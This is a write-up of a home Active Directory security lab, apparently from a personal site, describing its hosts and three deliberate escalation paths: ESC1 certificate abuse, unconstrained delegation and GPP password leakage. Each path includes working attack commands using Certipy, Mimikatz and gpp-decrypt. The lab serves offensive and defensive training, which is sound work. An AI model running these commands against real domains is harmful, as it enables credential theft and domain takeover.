

## 🌲 Windows AD Lab Architecture

The Active Directory Security Lab is an on-premise virtualized environment designed to model complex enterprise corporate networks. This setup allows safe, offline simulations of lateral movement, credential access, trust exploitation, and misconfiguration analysis.



### 📋 Technical Specifications

*   **Hypervisor Platforms**: Proxmox VE / VMware ESXi
*   **Active Directory Domain Services**: 2 Domains (`corp.local` parent forest and `sub.corp.local` child branch)
*   **Virtual Hosts**:
    *   **DC-01**: Windows Server 2019 running Active Directory Domain Services (AD DS), DNS, and Active Directory Certificate Services (AD CS).
    *   **DC-02**: Windows Server 2016 child domain controller running AD DS and DNS.
    *   **SRV-01**: Windows Server 2019 running Microsoft SQL Server database engine.
    *   **WS-01**: Windows 10 Enterprise corporate desktop client simulating active end-user activity.
*   **Deployment Method**: Auto-provisioned using **Vagrant** running VirtualBox/libvirt providers, configured via custom **PowerShell Desired State Configuration (DSC)** scripts.

---

## 💥 Configured Privilege Escalation Paths

This lab environment features classic and modern Active Directory vulnerabilities to test offensive tooling and defensive monitoring configs:

### 1. AD CS Certificate Template Abuse (ESC1)
*   **Root Cause**: The domain certificate authority (AD CS) has published a template configured with the flag `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`. This template is enrollable by the `Domain Users` group, allowing requestors to supply arbitrary Subject Alternative Names (SAN).
*   **Attack Vector**: An attacker compromises a low-privileged domain user account, then uses a tool like `Certify` or `Certipy` to request a certificate while masquerading as a Domain Administrator in the SAN field.
*   **Exploitation Commands**:
    ```bash
    # Requesting the certificate as low-priv user representing Administrator
    certipy req -u lowpriv@corp.local -p Password123 -ca corp-DC-01-CA -template ESC1-Template -upn administrator@corp.local -out admin.pfx
    
    # Authenticate via Kerberos (PKINIT) to retrieve NTLM hash
    certipy auth -pfx admin.pfx -dc-ip 10.10.10.50
    ```

### 2. Kerberos Unconstrained Delegation
*   **Root Cause**: The SQL service account or computer object `SRV-01$` is configured with the `TRUSTED_FOR_DELEGATION` attribute, indicating it can delegate client credentials to any service.
*   **Attack Vector**: Once administrative rights are obtained on `SRV-01`, the attacker monitors memory for TGTs of domain admin users connecting to the database. Alternatively, the attacker triggers a connection from a high-priv privilege host (such as `DC-01$`) utilizing the Printer Bug or PetitPotam, and steals the ticket.
*   **Exploitation Commands**:
    ```powershell
    # Monitor memory on compromised SRV-01 using Mimikatz
    sekurlsa::tickets /export
    
    # Inject the stolen Domain Admin TGT into current session
    kerberos::ptt DC-01$@CORP.LOCAL.kirbi
    ```

### 3. Group Policy Preference (GPP) Credential Leaking
*   **Root Cause**: Legacy Group Policy Preferences objects located in the `SYSVOL` domain share hold XML configuration files (e.g. `Groups.xml`) containing encrypted local administrator credentials.
*   **Attack Vector**: Any authenticated domain user reads the shared GPP files, extracts the `cpassword` string, and decrypts it using the public Microsoft AES decryption key.
*   **Exploitation Commands**:
    ```bash
    # Searching SYSVOL files for password strings
    find /sysvol -name "*.xml" | xargs grep "cpassword"
    
    # Decrypting via gpp-decrypt utility
    gpp-decrypt "Azj9ha32...[encrypted_cpassword_string]..."
    ```

---

### 🔗 Back to Hub
- [Return to Security Labs Hub]({{ '/labs/' | relative_url }})
